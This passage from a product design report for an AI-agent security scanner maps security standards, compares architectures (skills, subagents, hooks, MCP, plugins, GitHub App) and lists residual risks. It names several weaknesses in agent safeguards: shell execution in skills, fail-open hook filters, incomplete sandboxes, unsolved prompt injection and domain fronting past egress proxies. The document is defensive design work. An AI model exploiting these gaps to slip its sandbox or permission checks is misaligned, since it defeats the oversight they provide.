| **CWE Top 25 (2025)** | 2025 list, with companion "2025 CWE Top 10 KEV Weaknesses" and "2025 On the Cusp" both dated **29 January 2026** ([2025 Top 25](https://cwe.mitre.org/top25/archive/2025/2025_cwe_top25.html)) | **Prioritisation prior** in D5's Base factor and a self-assessment yardstick for rule coverage. Ranked head: CWE-79 (60.38), CWE-89, CWE-352, CWE-862, CWE-787, CWE-22, CWE-416, CWE-125, CWE-78, CWE-94 |
| **NIST AI 100-2 E2025** | **E2025, March 2025** (final 24 Mar 2025) ([CSRC](https://csrc.nist.gov/pubs/ai/100/2/e2025/final)) | AI attack taxonomy for the S1/agent-layer findings. **Caveat: the generative-AI prompt-injection section text is Unverified** from this session's extraction |
| **MITRE ATLAS** | atlas-data latest release **v5.6.0**, dated "04 May" — **year n.a.** ([releases](https://github.com/mitre-atlas/atlas-data/releases)) | AI-threat mapping label, applied only where a finding has a runtime-adversary interpretation. **AML.T0051 sub-technique IDs are Unverified** (atlas.mitre.org returned 403) |
| **OWASP Agentic Skills Top 10 (AST10)** | **v1.0 (2026 Edition)**, status "New Project Proposal — active development", last updated **March 2026** ([project](https://owasp.org/www-project-agentic-skills-top-10/)) | **Provisional label only.** Emit it as a secondary tag; do not build the schema around a project still in proposal status |
| **MITRE ATT&CK** | **v19.2**, released **6 August 2026** ([updates](https://attack.mitre.org/resources/updates/)) | Taxonomy **only** for runtime/threat mapping — **(d) ignore for SAST findings.** Mapping a static code weakness to an ATT&CK technique is a category error |

### 9.2 Wire in as (b) — requirement checklist

| Standard | Version / date | Role |
|---|---|---|
| **OWASP ASVS** | **5.0.0**, released **30 May 2025** ([project](https://owasp.org/www-project-application-security-verification-standard/)) | The verification-requirement backbone for VibeGuard's checklist-mode output and for mapping "what did we actually check?" |
| **NIST SP 800-218 (SSDF v1.1)** | **v1.1, February 2022** ([CSRC](https://csrc.nist.gov/pubs/sp/800/218/final)) | Map every engine control to a PW/PS/PO/RV task, so enterprise buyers can trace VibeGuard coverage to their own SSDF attestations |
| **NIST SP 800-218A** | **July 2024** ([CSRC](https://csrc.nist.gov/pubs/sp/800/218/a/final)) | Checklist for AI-model pipelines — directly relevant because VibeGuard *is* an AI pipeline and must hold itself to it |
| **OpenSSF Scorecard checks** | Latest release **v5.1.1**, assets dated **2025-02-17**; 19 checks incl. Dangerous-Workflow (Critical risk) ([releases](https://github.com/ossf/scorecard/releases), [checks.md](https://github.com/ossf/scorecard/blob/main/docs/checks.md)) | **Mirror the check semantics directly** — Scorecard is both a dependency (§5.1) and a checklist for VibeGuard's own repository |
| **SLSA** | **v1.1 Approved Specification**, blog dated **21 April 2025**; backwards compatible with 1.0; adds verifier metadata to VSA ([blog](https://slsa.dev/blog/2025/04/slsa-v1.1), [levels](https://slsa.dev/spec/v1.1/levels)) | Build-level checklist for VibeGuard's own release pipeline **and** a scoring input for the repos it scans |
| **NIST AI RMF + GenAI Profile** | AI RMF **1.0, 26 January 2023**; GenAI Profile **26 July 2024**; the page notes AI RMF 1.0 "is being revised as part of the White House AI Action Plan" ([NIST](https://www.nist.gov/itl/ai-ri<REDACTED-OPENAI-KEY>)) | Governance checklist for the enterprise packaging track (V3), not a finding source |
| **OWASP AI Testing Guide** | **v1**, released **26 November 2025** ([project](https://owasp.org/www-project-ai-testing-guide/)) | Test-plan checklist for VibeGuard's own AI components (S6) |
| **OWASP Agentic Security Initiative** | "Agentic AI – Threats and Mitigations" and "Securing Agentic Applications Guide 1.0"; version dates **n.a.** ([resources](https://genai.owasp.org/resource/agentic-ai-threats-and-mitigations/)) | Design checklist for D8 (agent self-security) |
| **EU Cyber Resilience Act (Reg. (EU) 2024/2847)** | In force **10 December 2024**; **reporting obligations from 11 September 2026**; main obligations **11 December 2027**; practical guidance published **27 July 2026** ([EC](https://digital-strategy.ec.europa.eu/en/policies/cyber-resilience-act)) | Checklist driving three concrete product requirements: SBOM generation, documented vulnerability handling, and reporting-deadline awareness. The Sept 2026 date is inside VibeGuard's V2 window |
| **NIST SP 800-53** | **Rev. 5, Release 5.2.0, 27 August 2025** ([CSRC](https://csrc.nist.gov/pubs/sp/800/53/r5/upd1/final)) | **Compliance mapping only** — and explicitly **(d) ignore as a finding taxonomy.** Control families are not weakness classes |

### 9.3 Wire in as (c) — output / report format

| Standard | Version / date | Role |
|---|---|---|
| **SARIF** | **2.1.0** — the only version any reviewed tool explicitly names and the only version GitHub accepts ([SARIF support](https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning)) | **Primary findings interchange format.** Pin 2.1.0 exactly; carry `partialFingerprints`, `versionControlProvenance`, a unique `category`/`runAutomationDetails.id`, and CWE via `taxa`/`relationships` |
| **CycloneDX** | **1.7** — "Release date 2025-10-21", "Publication date 2025-12-10"; standardised as **ECMA-424** ([spec overview](https://cyclonedx.org/specification/overview/)) | **Primary SBOM output.** Also the vehicle for VEX in V3 |
| **SPDX** | **3.0** current per the spec page; ISO/IEC 5962:2021; **3.1 first release candidate** available ([specifications](https://spdx.dev/use/specifications/)) | **Secondary/alternate SBOM output**, for buyers standardised on SPDX |
| **in-toto** | Version **n.a.** on the site; CNCF graduated ([in-toto.io](https://in-toto.io/)) | Attestation format for the S9 evidence bundle and for patch provenance in D6 |
| **Sigstore** | Version **n.a.** on the site; keyless signing via Cosign with the Rekor transparency log ([sigstore.dev](https://www.sigstore.dev/)) | Signing and verification of VibeGuard's own outputs (signed JSON findings, signed suppressions per D9) and of its release artefacts |

### 9.4 Prioritisation signals (carried as separate outputs, not folded into one score)

D5 mandates a composite risk score, but the raw signals must remain separately visible so a user can re-derive the decision:

- **CVSS v4.0** — current version, "initial release in November 2023"; the CVSS SIG also publishes a **Consumer Implementation Guide** for tailoring scores to deployment environments ([FIRST CVSS](https://www.first.org/cvss/)). Used only as the **Base** prior.
- **EPSS** — a 0–1 probability plus percentile published **daily for every CVE**, estimating exploitation in the wild within 30 days; free via CSV, API and a GitHub repo; current model version **n.a.** ([FIRST EPSS](https://www.first.org/epss/)). Carried as `epss_percentile`.
- **CISA KEV** — authoritative catalogue of vulnerabilities exploited in the wild, published as CSV/JSON with a schema ([CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)). Carried as a boolean `kev` flag, and one of only two classes VibeGuard will hard-gate on.
- **SSVC** — created 2019 by CMU SEI with CISA; the CISA decision tree yields **Track / Track\* / Attend / Act** from Exploitation, Technical impact, Automatable, Mission prevalence and Public well-being impact ([CISA SSVC](https://www.cisa.gov/stakeholder-specific-vulnerability-categorization-ssvc)). Carried as a separate decision output, because SSVC is decision-oriented where CVSS is severity-oriented — which is exactly the distinction a user needs when VibeGuard refuses to gate.

### 9.5 Explicitly (d) — ignore

- **MITRE ATT&CK for static findings.** Keep it for runtime/threat-narrative mapping only.
- **NIST SP 800-53 as a finding taxonomy.** Compliance mapping only.
- **Any "SWE-bench security subset."** No such official split is documented on the SWE-bench site ([swebench.com](https://www.swebench.com/)); claims to the contrary are **Unverified**.
- **Stale benchmark scorecards** — OWASP Benchmark's published free-tool scores are "from several years ago" by the project's own admission ([project page](https://owasp.org/www-project-benchmark/)).
- **NodeGoat** (latest v1.4, 4 Aug 2019), **Acceis vulnerable-code-snippets** (7 entries), and **django-DefectDojo** (a findings-management platform, not a benchmark — a potential *integration* target instead).

### 9.6 Net wiring summary

```
FINDING          ── primary key ──►  CWE 4.20
                 ── rollups ─────►  OWASP Top 10:2025 | GenAI LLM Top 10 2026 | Agentic Top 10 2026 | AST10 (provisional)
                 ── AI threat ───►  NIST AI 100-2 E2025 | MITRE ATLAS (runtime interpretation only)
                 ── priority ────►  CVSS v4.0 base × EPSS percentile × KEV flag → SSVC decision (separate output)
REQUIREMENTS     ───────────────►  ASVS 5.0.0 + SSDF 800-218/218A + Scorecard checks + SLSA v1.1 + CRA obligations
OUTPUT           ───────────────►  SARIF 2.1.0 + CycloneDX 1.7 (SPDX 3.0 alternate) + in-toto attestations + Sigstore signatures
IGNORE           ───────────────►  ATT&CK for SAST · 800-53 as taxonomy · "SWE-bench security subset" · stale OWASP Benchmark scores
```

---

## 10. Architecture Options

Eight shipping architectures were evaluated. Options 1–7 are the single-vehicle choices enumerated in file 07's shipping-vehicle comparison; Option 8 is the layered hybrid. Every judgment below traces to a fetched source.

### 10.1 Comparison table

Legend: **Cx** = complexity (1 = trivial, 5 = very high). Ratings are relative within this set.

| # | Option | Pros | Cons | Cx | Security / isolation | Scalability | Portability | DX | Commercial | Maintenance | Claude dependency | GitHub dependency |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| **1** | **Claude Code Skill** (`SKILL.md` only) | Trivial to build and adopt; invocable as `/skill-name` from the Action; follows the agentskills.io open standard | **Weak boundary and actively dangerous for a security product**: skills execute shell via `` !`cmd` ``/```` ```! ```` blocks *before* content reaches the model, and `allowed-tools` grants tools without prompting "even in `-p` mode in untrusted folders"; cannot intercept a tool call; org admins can kill execution with `disableSkillShellExecution` | 1 | **Poor** — the skill widens the customer's blast radius | Poor — no engine, per-session context cost | Medium: body/metadata port, but only 6 frontmatter fields survive packaging to claude.ai/API | **Best-in-class** — a directory and a Markdown file | Marketplace-distributable | Low code, but 1,536-char description cap and a 25,000-token combined budget force curation | **Total** | None |
| **2** | **Claude Code Subagent** (`.claude/agents/`) | Own context window (good for triage isolation), own tool allow/deny list, `permissionMode`, `maxTurns`, and `isolation: worktree` running Bash in a temporary worktree branched from the default branch | **Not a security boundary** — subagents share the parent process and sandbox configuration; **plugin-shipped subagents cannot set `hooks`, `mcpServers` or `permissionMode`** (ignored for security reasons); they also lose `AskUserQuestion`, `EnterPlanMode`, `Workflow` and others | 1 | Medium — tool-scoping only | Poor as a product | Low — Claude-Code-specific frontmatter | Strong: one Markdown file, hot-reloaded | Ships inside plugins | **Version-sensitive**: behaviour changed across `v2.1.196`–`v2.1.222` for model resolution, `/agents` and duplicate names | **Total** | None |
| **3** | **Hooks binary** (`hooks.json` + stdio) | **The only surface that can actually deny a tool call** — `permissionDecision: deny` or exit code 2 across ~30 events, precedence deny > defer > ask > allow; **Cursor implements the same exit-code-2 contract explicitly "matches Claude Code behavior"** and can load Claude Code hooks | Runs with **full user permissions**; `if` filters **fail open**; async hooks cannot enforce policy; Anthropic's own docs say use the permission system for hard allow/deny; 10,000-character output cap; enterprise can force `allowManagedHooksOnly` or `disableAllHooks` | 2 | **Best available enforcement**, worst privilege posture | Good (per-call, local) | **Best deny-path portability** — one binary, two hosts; Codex has `hooks.json` but its events and blocking semantics are **Unverified** | Good: JSON config + a stdio binary or HTTP endpoint (HTTP hooks must return 2xx **plus** decision JSON) | Distributable via plugin `hooks/hooks.json` | Large, fast-evolving event surface; per-agent JSON schemas differ | Low-medium | None |
| **4** | **MCP server** | **Highest cross-agent portability** — same protocol in Claude Code, Cursor, Copilot Chat and Codex; stdio/http/streamable-http/sse/ws with OAuth 2.0 (RFC 9728 → RFC 8414 discovery) and OS-keychain token storage; you control the process, so it can be wrapped in `srt` for FS/network isolation | Cannot block a tool call; **Anthropic audits no MCP server**; **Copilot's agent firewall does not cover MCP servers**; `claude -p`, the SDK and cloud sessions **cannot prompt**, so project-scoped `.mcp.json` approval is unavailable in CI; watch 5-min HTTP / 30-min stdio idle timeouts and 5 backoff attempts; `headersHelper` executes arbitrary shell | 3 | Good — you own the process and its sandbox | **Good** — remote HTTP + OAuth is the natural multi-tenant shape | **Highest** | Mature tooling (`claude mcp login`, per-server timeouts) | Remote HTTP + OAuth is the natural SaaS shape; listable in the Anthropic Directory after review | Moderate | **Lowest** | None |
| **5** | **Claude Code plugin** (bundle) | Superset packaging: skills + agents + hooks + MCP config + LSP + monitors + `bin/` on the Bash PATH; **best distribution story** — own git-hosted marketplace or the `claude-plugins-official` / `claude-community` catalogs (community pinned to a commit SHA, nightly sync); installable in CI via `plugin_marketplaces`/`plugins`; `claude plugin validate --strict` | Claude-Code-only format; deliberately restricted (plugin subagents lose hooks/mcpServers/permissionMode; plugin `settings.json` supports only `agent` and `subagentStatusLine`); `--plugin-url` zip installs are session-only with a trust warning; cross-marketplace dependencies are **blocked at install** unless allowlisted | 3 | Medium — packaging, not isolation | Poor as an engine | **Lowest** | Very good | **Best** | Version pinning and dependency allowlisting supported | **Highest among agent surfaces** | None |
| **6** | **Standalone CLI / Agent SDK product** | Full control: your own agent loop, sandbox, budget governor and audit log; the only shape that can run **fully offline** with BYO model; the only shape a regulated/air-gapped buyer can accept | Agent SDK is **Python and TypeScript only** — other languages must shell out to `-p --output-format json`; **`-p`/SDK skip trust verification and treat the folder as trusted**; **commercial constraints are severe**: Anthropic does not allow third-party developers to offer claude.ai login or rate limits for their products without prior approval, products may not brand as "Claude Code"/"Claude Code Agent" or mimic it (permitted: "Claude Agent", "{YourAgentName} Powered by Claude"), and use is governed by Anthropic's Commercial ToS | 4 | **Best** — you own the sandbox, egress proxy and secret broker | **Best** — no per-agent context limits | High if the engine is model-agnostic; **low if it depends on the Agent SDK** | Strong for building a product, weak as a drop-in for someone else's agent | Standard open-core, but **avoid Agent SDK resale entanglement** | You maintain the harness | **High if SDK-based, none if model-agnostic** | None |
| **7** | **GitHub App / Action** | **Checks API write is App-only**; App installation tokens get **5,000–12,500 req/hour** versus **1,000/hour** for `GITHUB_TOKEN`; least-privilege by default (a GitHub App has **no permissions** until requested); code scanning SARIF upload, secret scanning and Dependabot alert APIs; agent-agnostic, so no AI-vendor lock-in. An Action is the easiest adoption path (copy a YAML file) and works with OIDC to remove long-lived secrets | GitHub-only. Action inherits the full Actions threat model: repo write ⇒ read all secrets, log redaction not guaranteed, `${{ }}` script injection, need for SHA-pinning; fork PRs on public repos get no secrets; commits made with `GITHUB_TOKEN` don't retrigger workflows; scheduled workflows run only from the default branch and are disabled after 60 days of public-repo inactivity. Code-scanning endpoints return **403 without GitHub Advanced Security**; SARIF caps at **10 MB gzipped**, 25,000 results with only the **top 5,000** kept, **1,000 uploads/hour**; Checks fallback is capped at **50 annotations per request** and Actions shows only 10 warning + 10 error annotations per step; adding an App permission **re-prompts every installation** | 3 | Medium — App is least-privilege; Action is not | Good (App), constrained (Action) | Agent-agnostic | Very good | Standard SaaS/per-seat | Webhooks + REST; permission changes are disruptive | None | **Total** |
| **8** | **Hybrid: standalone engine + thin adapters** | Combines Option 6's isolation, offline capability and commercial freedom with Option 4's portability, Option 3's enforcement, Option 5's distribution and Option 7's platform reach. Each adapter is replaceable without touching the engine; a dead surface (archived plugin format, deprecated MCP transport) is a configuration change, not a rewrite | Most moving parts; four packaging targets to test; requires disciplined layering or it degenerates into four half-products; the engine must stay the only place business logic lives | **5** | **Best** — isolation is the engine's property, inherited by every adapter | **Best** | **Best** — MCP for reach, hooks for enforcement, plugin for distribution | Good, once the adapter contract is stable | **Best** — open-core engine, distribution via marketplaces and GitHub, no resale entanglement | Highest total surface, but lowest **per-surface** risk | **None in the core** | **None in the core** |

### 10.2 Prose analysis

**Options 1 and 2 fail on a single fact each.** A skill can execute shell before its content ever reaches the model and can grant tools without prompting in untrusted folders ([skills](https://docs.claude.com/en/docs/claude-code/skills)); shipping that as a *security* product means the security product is the new attack surface. A subagent is a context boundary, not a security boundary, because it shares the parent process and sandbox configuration ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)) — and if it is shipped inside a plugin it silently loses exactly the three fields (`hooks`, `mcpServers`, `permissionMode`) that would have given it teeth ([sub-agents](https://docs.claude.com/en/docs/claude-code/sub-agents)). Both remain useful *components*; neither can be the product.

**Option 3 is indispensable but insufficient.** Hooks are the only surface in any reviewed harness that can stop a tool call before it runs, and Cursor's deliberate compatibility with the exit-code-2 deny contract makes a single stdio binary work across two hosts ([Cursor hooks](https://cursor.com/docs/agent/hooks)). But hooks run with full user permissions, `if` filters fail open, async hooks cannot enforce, and Anthropic's own docs point users at the permission system for hard allow/deny ([hooks](https://docs.claude.com/en/docs/claude-code/hooks)). A hook is an enforcement point, not an analysis engine.

**Option 4 is the correct primary interface and the wrong product boundary.** MCP is the only surface natively consumable by Claude Code, Cursor, Copilot Chat and Codex, which makes it the cheapest possible distribution for read-only analysis tools. But it cannot block anything, it cannot be approved at project scope in CI because nothing can prompt, and Copilot's firewall explicitly does not cover MCP servers ([MCP](https://docs.claude.com/en/docs/claude-code/mcp), [Copilot firewall](https://docs.github.com/en/copilot/how-tos/use-copilot-agents/coding-agent/customize-the-agent-firewall)). Build the MCP server; do not build *only* the MCP server.

**Option 5 is distribution, not architecture.** The plugin format is the best packaging story available — own marketplace or official/community catalogs, SHA-pinned community entries, CI installation via `plugin_marketplaces` — and the worst portability story, being Claude-Code-only ([plugins](https://docs.claude.com/en/docs/claude-code/plugins), [plugin marketplaces](https://docs.claude.com/en/docs/claude-code/plugin-marketplaces)).

**Option 6 is where the product's defensibility lives, with one trap.** Only a standalone engine can implement the two-process split, the TLS-terminating egress proxy, the secret broker, the budget governor and the hash-chained audit log that §8 requires — and only a standalone engine can run air-gapped, which is a stated limitation of market leaders ([Pixee comparison](https://www.pixee.ai/blog/checkmarx-vs-veracode)). The trap is building it *on* the Agent SDK: that imports a Python/TypeScript-only constraint, a trust-verification hole under `-p`, and a commercial regime that forbids offering claude.ai login or rate limits without prior approval and forbids "Claude Code" branding ([Agent SDK overview](https://docs.claude.com/en/docs/claude-code/sdk/sdk-overview)). The engine must be model-agnostic.

**Option 7 splits cleanly into a strong half and a weak half.** The App half is strong for structural reasons that cannot be worked around: Checks write is App-only, and installation tokens get 5,000–12,500 req/hour against `GITHUB_TOKEN`'s 1,000/hour per repository — which is the same reason Anthropic's own action authenticates as the Claude GitHub App rather than using `secrets.GITHUB_TOKEN` ([Checks runs](https://docs.github.com/en/rest/checks/runs), [rate limits](https://docs.github.com/en/rest/using-the-rest-api/rate-limits-for-the-rest-api), [github-actions](https://docs.claude.com/en/docs/claude-code/github-actions)). The Action half is weak as a *primary* surface — it inherits the Actions threat model wholesale — but irreplaceable as a fallback for self-hosted and air-gapped CI where no App can reach.

**Option 8 wins because the constraints are complementary, not because more surfaces are better.** Every single-vehicle option above is disqualified by a property of that vehicle, and in each case another vehicle supplies exactly the missing property: MCP supplies reach that hooks lack; hooks supply enforcement that MCP lacks; the plugin supplies distribution that neither has; the GitHub App supplies Checks and rate-limit headroom that no agent surface has; and the standalone engine supplies the isolation, offline capability and commercial freedom that all four adapters lack. The cost is real — four packaging targets and a discipline problem — and it is paid down by one rule: **the engine is the only place logic lives, and every adapter is a translation layer with no business logic of its own.**

---

## 11. Recommended Architecture

**Decision (directive D1, final): Option 8, hybrid with strict layering.** The immovable core is a standalone deterministic engine plus CLI (`vg`), Python 3.12, invoking permissively licensed scanners as subprocesses, normalizing to SARIF 2.1.0 plus an internal Finding schema, running fully offline. Everything else is a thin adapter over it.

### 11.1 The four layers

1. **Core engine + CLI (`vg`).** Python 3.12. Permissive scanners as subprocesses (Opengrep, Trivy, Syft, osv-scanner, Gitleaks, zizmor, Checkov, Scorecard — §5.1). Output: SARIF 2.1.0, CycloneDX 1.7, signed JSON findings, human MD/HTML, immutable audit log. Runs with no network. **This is the product.**
2. **MCP server (`vg-mcp`).** The primary agent-facing surface, working in Claude Code, Cursor, Copilot Chat and Codex. Read-only-by-default tools: `vg.scan`, `vg.explain`, `vg.propose_fix`, `vg.verify_fix`, `vg.repo_trust`. **Never returns raw untrusted repo text into the agent's context without neutralization wrapping** (D7).
3. **Claude Code plugin.** A distribution wrapper bundling a Skill (workflow guidance only — `disableSkillShellExecution` respected, **no `!`-exec blocks**, no `allowed-tools` grants), a Subagent (isolated context for triage), and **Hooks** (`PreToolUse` deny via exit code 2 / `permissionDecision: deny`) — hooks are the only Claude Code surface that can actually block a tool call.
4. **GitHub App (`vg-app`)**, not just an Action: Checks API write is App-only, and installation tokens get 5,000–12,500 req/hr against 1,000/hr for `GITHUB_TOKEN`. A GitHub Action is provided as a fallback for self-hosted and air-gapped CI.

**Deliberately not in v1:** IDE plugins (per-IDE maintenance cost for no capability MCP lacks), DAST at scale, cloud multi-tenant scanning of customer source.

### 11.2 Component diagram



ASCII fallback of the same layering, for environments without Mermaid:

```
  vg CLI ── vg-mcp ── CC plugin (skill|subagent|HOOKS) ── vg-app ── Action     ADAPTERS
      └────────────────┬───────────────┬────────────────────┬────────┘        (no logic)
                       ▼
  ┌──────────────────────── CORE ENGINE (offline-capable) ─────────────────────────┐
  │  ORCHESTRATOR  [creds | policy | gating | governor | hash-chained audit log]   │
  │        ▲ B3 structured, size-capped, schema-validated findings only            │
  │  ┌─────┴──────────────── ANALYZER (sandbox: no net, no secrets) ────────────┐  │
  │  │ S0 acquire → S1 trust/hijack → S2 inventory → S3 fan-out → S4 correlate  │  │
  │  │                                                    → S5 context (det.)   │  │
  │  └──────────────────────────────────────────────────────────────────────────┘  │
  │  S6 AI analysis (neutralized excerpts) → S7 risk → [S8 fix, opt-in] → S9 report│
  └───────────────────────────────┬───────────────────────────────────────────────┘
                                  ▼
              EGRESS: default-deny TLS-terminating allowlist proxy + secret broker
                                  ▼
                        BYO model (local or API)   ·   registry/advisory APIs
```

### 11.3 Why this, argued from evidence

1. **The engine must not depend on Claude.** The Agent SDK forbids offering claude.ai login or rate limits for third-party products without prior approval, forbids "Claude Code"/"Claude Code Agent" branding or mimicry, and is governed by Anthropic's Commercial ToS ([Agent SDK overview](https://docs.claude.com/en/docs/claude-code/sdk/sdk-overview)). A model-agnostic engine also survives the commoditisation risk that "an LLM that reviews the diff" gets absorbed into a model subscription — Anthropic's security plugin is already free on all plans ([Help Net Security](https://www.helpnetsecurity.com/2026/05/27/anthropic-claude-code-security-guidance-plugin/)).
2. **The engine must own its own isolation.** Every threat in §8.5 rated Critical impact (T4, T9, T10, T11, T15, T20) is mitigated by a property only a standalone process can have: two-process split, allowlisted argv, no code execution outside the sandbox, default-deny egress, broker-injected secrets. Inheriting a host agent's sandbox is not an option when that sandbox's own docs state it "is not a complete isolation boundary", inherits parent-process credentials by default, and does not route the built-in `Read`/`Edit`/`Write` tools through the sandbox at all ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)).
3. **The engine must be Opengrep + own rules, not Semgrep + semgrep-rules or CodeQL.** The Semgrep Rules License bars redistribution and service offerings ([rules license](https://semgrep.dev/legal/rules-license)); the CodeQL CLI license bars non-OSS/commercial use without paid GitHub Code Security ([LICENSE.md](https://github.com/github/codeql-cli-binaries/blob/main/LICENSE.md)). Opengrep is LGPL-2.1, Semgrep-rule-syntax compatible, offline, SARIF-native, and on a 7-day release cadence ([api](https://api.github.com/repos/opengrep/opengrep)).
4. **MCP is the cheapest reach, so it is the primary agent surface — read-only.** The same protocol is consumed by Claude Code, Cursor, Copilot Chat and Codex ([MCP](https://docs.claude.com/en/docs/claude-code/mcp), [Cursor MCP](https://cursor.com/docs/context/mcp), [Copilot MCP](https://docs.github.com/en/copilot/how-tos/provide-context/use-mcp/extend-copilot-chat-with-mcp), [Codex config](https://developers.openai.com/codex/local-config)). Read-only by default because the tool-poisoning corpus shows what a writable MCP surface becomes in an attacker's hands.
5. **Hooks, not the skill, carry enforcement.** Hooks can return `permissionDecision: deny` or exit 2; skills cannot block anything and can grant tools without prompting even in `-p` in untrusted folders ([hooks](https://docs.claude.com/en/docs/claude-code/hooks), [skills](https://docs.claude.com/en/docs/claude-code/skills)). Because Cursor implements the same exit-code-2 semantics explicitly for Claude Code compatibility, one binary covers two hosts ([Cursor hooks](https://cursor.com/docs/agent/hooks)).
6. **A GitHub App, not merely an Action.** Checks API write is App-only and installation tokens give 5,000–12,500 req/hr against `GITHUB_TOKEN`'s 1,000/hr per repository ([Checks runs](https://docs.github.com/en/rest/checks/runs), [rate limits](https://docs.github.com/en/rest/using-the-rest-api/rate-limits-for-the-rest-api)). The Action remains as the air-gapped/self-hosted fallback, and both must be engineered against the documented SARIF caps: 10 MB gzipped, 25,000 results with only the top 5,000 kept, 1,000 uploads/hour, unique `category` per analysis, and a 403 gate when Advanced Security is not enabled ([SARIF support](https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning), [code scanning API](https://docs.github.com/en/rest/code-scanning/code-scanning)).
7. **Anthropic's own reviewer proves the wedge.** It "is not hardened against prompt injection attacks and should only be used to review trusted PRs" ([claude-code-security-review](https://github.com/anthropics/claude-code-security-review)). VibeGuard's reason to exist is the case that sentence excludes.

### 11.4 Why the user's linear pipeline was changed (D3)

The originally proposed pipeline was a straight line ending in auto-fix. Seven corrections were applied, each traceable to evidence in this report:

| # | Correction | Why |
|---|---|---|
| (a) | **Start with untrusted-ingest / trust classification (S1) before anything reads repo instructions** | Repository prose is loaded into agent context before any user action, and `CVE-2025-59041` shows RCE from `git config user.email` templated *before* the trust dialog. If S1 is not first, everything after it is analysing attacker-controlled input as if it were trusted |
| (b) | **Make it a DAG with fan-out, not a line** | The eight scanners are independent; serialising them multiplies wall-clock cost for no accuracy gain, and two independent studies had to abandon cross-file analysis purely over runtime |
| (c) | **No code execution — no `npm install`, no build, no container build — outside the sandbox, and never in the same stage as network access** | Nx's `postinstall` scanned the filesystem, collected credentials and published them under the victim's own account. Execution + network in one stage is the lethal trifecta rebuilt inside our own product |
| (d) | **Gate auto-fix behind verification; never auto-apply** | 49.3% of measured AI patches failed to close at least one existing exploit path and 2.3% introduced a new security problem; post-verification success on AutoPatchBench-Lite is 5–11% |
| (e) | **Add a budget/timeout governor and caching / diff-aware incremental mode** | Whitespace inflation of ~100,000 newlines is a documented anti-scanner technique; Theori's CRS README warns a run "can easily spend $1,000 or more in under an hour"; seclab-taskflows warns whole-repo audits "can take several hours" and cost non-trivial money |
| (f) | **Add explicit `abstain` outcomes** | Fix success collapses to 15.2% under incorrect vulnerability guidance versus 65% with correct guidance — so a low-confidence finding is worse than no finding, and the honest output is abstention |
| (g) | **Container and DAST stages optional and off by default** | They require running the untrusted application, which is a different engine with a different risk model (ZAP, Nuclei, strix) |

### 11.5 Explicit rejection reasons

| Rejected option | Rejection reason (one sentence each) |
|---|---|
| **1. Skill-only** | A skill can execute shell before its content reaches the model and can grant tools without prompting in untrusted folders, so shipping one as *the* security product enlarges the customer's attack surface rather than reducing it ([skills](https://docs.claude.com/en/docs/claude-code/skills)). |
| **2. Subagent-only** | A subagent shares the parent process and sandbox configuration — a context boundary, not a security boundary — and loses `hooks`/`mcpServers`/`permissionMode` entirely when shipped inside a plugin ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing), [sub-agents](https://docs.claude.com/en/docs/claude-code/sub-agents)). |
| **3. Hooks-only** | Hooks can deny but cannot analyse, run with full user permissions, fail open on `if` filters, and cannot enforce asynchronously — Anthropic's own docs redirect hard allow/deny to the permission system ([hooks](https://docs.claude.com/en/docs/claude-code/hooks)). |
| **4. MCP-server-only** | MCP cannot block a tool call, cannot be approved at project scope in CI because `-p`/SDK/cloud sessions cannot prompt, and is explicitly outside Copilot's agent firewall ([MCP](https://docs.claude.com/en/docs/claude-code/mcp), [Copilot firewall](https://docs.github.com/en/copilot/how-tos/use-copilot-agents/coding-agent/customize-the-agent-firewall)). |
| **5. Plugin-only** | The plugin format is Claude-Code-only and is packaging rather than architecture — it deliberately restricts the very fields a security bundle would need, and `settings.json` inside a plugin supports only two keys ([plugins](https://docs.claude.com/en/docs/claude-code/plugins)). |
| **6. Standalone-CLI-only** | Correct core, insufficient distribution: without the MCP surface it is invisible inside the agent loop where the code is actually written, and without the GitHub App it cannot write Checks or survive `GITHUB_TOKEN`'s 1,000 req/hour ceiling ([Checks runs](https://docs.github.com/en/rest/checks/runs), [rate limits](https://docs.github.com/en/rest/using-the-rest-api/rate-limits-for-the-rest-api)). |
| **7. GitHub-App/Action-only** | GitHub-only by construction, blocked by a 403 when Advanced Security is absent, capped at 10 MB / top-5,000 results / 1,000 uploads per hour, and — in Action form — inheriting a threat model in which repo-write access means read access to every secret ([code scanning API](https://docs.github.com/en/rest/code-scanning/code-scanning), [SARIF support](https://docs.github.com/en/code-security/code-scanning/integrating-with-code-scanning/sarif-support-for-code-scanning), [Actions hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)). |

### 11.6 Residual risk of the recommended architecture

This architecture reduces risk; it does not eliminate it, and the specific residuals are named so they can be tracked:

- **Prompt injection remains unsolved.** Adaptive attacks bypassed every evaluated defense in the literature with success exceeding 78%, and Anthropic's own position is that "prompt injection is far from a solved problem" with a 1% attack success rate still representing "meaningful risk" ([survey](https://arxiv.org/html/2601.17548v1), [Anthropic](https://www.anthropic.com/news/prompt-injection-defenses)). The `<untrusted_data>` envelope raises cost; it does not close the class.
- **The sandbox primitives VibeGuard depends on have escape advisories** — `GHSA-9gqj-5w7c-vx47` in `srt`, two setuid privilege-escalation CVEs in bubblewrap ([srt advisories](https://api.github.com/repos/anthropic-experimental/sandbox-runtime/security-advisories), [bubblewrap advisories](https://api.github.com/repos/containers/bubblewrap/security-advisories)). Defence in depth (gVisor or microVM under the analyzer) is a mitigation, not a proof.
- **Egress control is only as good as the allowlist.** Domain fronting defeats TLS-blind proxies and broad allowlists like `github.com` reintroduce the channel ([sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)).
- **Detection recall will be low, by measurement.** Best-case real-world SAST recall is 12.7% with a 70.9% combined miss rate; VibeGuard's honest posture is ranked, evidence-linked findings with published abstention — never a clean bill of health.
- **Verified auto-fix will have a low acceptance rate on purpose.** If the honest exploit-verified figure lands near the independent 26%, it will read as a worse product than a competitor advertising a 90% merge rate. That is a commercial risk accepted deliberately in exchange for the one claim nobody else in the category can currently make.

---

## 12. Recommended Stack

